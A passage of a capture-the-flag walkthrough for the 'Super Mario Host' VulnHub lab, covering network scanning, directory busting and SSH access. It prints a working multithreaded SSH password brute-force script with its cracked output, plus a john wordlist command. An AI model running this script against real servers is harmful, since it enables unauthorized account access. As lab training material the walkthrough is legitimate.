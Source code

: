 # Super Mario Host: 1.0.1

* [Download](https://www.vulnhub.com/entry/super-mario-host-101,186/)
* Author: mr_h4sh

### Level

Intermediate.

***

## Overview

In this fun Super Mario Bros themed CTF, there are 2 flags and the goal is to get the password for every user on the system.

Author mr_h4sh gives us a hint from the description: `remember that Enumeration is the key.`

***

# Enumeration

As per the hint, I hopped on my Kali box and immediately fired up `netdiscover`

Running it gave me this:
```
root@kali:~# netdiscover

 Currently scanning: 192.168.89.0/16   |   Screen View: Unique Hosts                                    
                                                                                                        
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                        
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.74.2    00:50:56:fe:c3:07      1      60  Unknown vendor                                       
 192.168.74.128  00:0c:29:ee:57:97      1      60  Unknown vendor
 ```
 
I knew that `192.168.74.128` is the target VM because the other address is my router and the address of the Kali box is `192.168.74.129`

With the target IP, I used nmap to find open ports on the target. Nmap gave me this output:

```
root@kali:~# nmap -sV 192.168.74.128

Starting Nmap 7.40 ( https://nmap.org ) at 2017-06-25 05:38 EDT
Nmap scan report for mario.supermariohost.local (192.168.74.128)
Host is up (0.000051s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8180/tcp open  http    Apache httpd
MAC Address: 00:0C:29:EE:57:97 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.04 seconds
```

Hm. The SSH port looks interesting, but we'll focus on the http service first.

I visit `192.168.74.128:8180` and it gives me the default nginx webpage
![alt-text](http://i.imgur.com/StZcUWc.png)

**Next, we do some dirbusting on the server**

Using the `raft-small-directories.txt` file from SecLists and using whatever dirbusting program you like (i used `dirb`), we get the following results:

```
/server-status
/vhosts
```

We are unable to visit the `/server-status` file, but we can view the `/vhosts` file.

![alt-text](http://i.imgur.com/E1YM3xZ.png)

Add **mario.supermariohost.local** to your `/etc/hosts` file then visit mario.supermariohost.local:8180 in your browser.

A cool (but not really functioning) mario game comes up, awesome!

Following along with the Mario Bros theme, could there be other files named after other characters?

I tried `bowser.php`, `peach.php`, and, `luigi.php`. On `luigi.php`, there is just a message that adds some depth to the ctf, but not any info.

After no luck on the http side of things, I moved over to the SSH service.

***

After a few SSH attempts, I get blocked out of the box. That means that there's some sort of protection in place.

Using a great script from gknsb, I was able to get the ssh password of the user `luigi`

Here is the script:

```python
import paramiko, sys, os, socket, multiprocessing

global host, username, line, input_file
line = '\n--------------------------------------------------\n'
try:
    input_file = 'listname'  # The password wordlist
    host = 'ff80::23c:292f:fe63:7134%eth1'  # Example ipv6 host
    username = 'luigi'
    threads = 10
    if os.path.exists(input_file) == False:
        print '\n[*] File Path Does Not Exist!'
        sys.exit(4)
except KeyboardInterrupt:
    print '\n\n[*] User Requested An Interrupt'
    sys.exit(3)


def ssh_connect(password, event, code = 0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    except socket.error, e:
        code = 2
    ssh.close()
    if code == 0:
        print('%s[*] User: %s [*] Pass Found: %s%s' % (line, username, password, line))
        event.set()
        sys.exit(0)
    elif code == 1:
        print('[*] User: %s [*] Pass: %s => Login Incorrect! <=' % (username,password))
    elif code == 2:
        print('[*] Connection Could Not Be Established To Address: %s' % (host))
        sys.exit(2)
    pass


print ''
with open(input_file) as file:
    passwords = file.readlines()
passwords = [x.strip('\n') for x in passwords]
pool = multiprocessing.Pool(threads)
m = multiprocessing.Manager()
event = m.Event()
for password in passwords:
    pool.apply_async(ssh_connect, (password, event))
pool.close()
event.wait()
pool.terminate()
```

With this script, we get the results:
```
--------------------------------------------------
[*] User: luigi [*] Pass Found: luigi1
--------------------------------------------------
```

Using the character names, you can generate a quick password list with `john`

```
root@kali:~/ctfs/supermario# cat testlist
mario
luigi
peach
root@kali:~/ctfs/supermario# john --wordlist:testlist --rules --stdout > mariolist
Press 'q' or Ctrl-C to abort, almost any other key for status
153p 0:00:00:00 100.00% (2017-04-22 13:09) 1700p/s Peaching
```

***

## Looking around








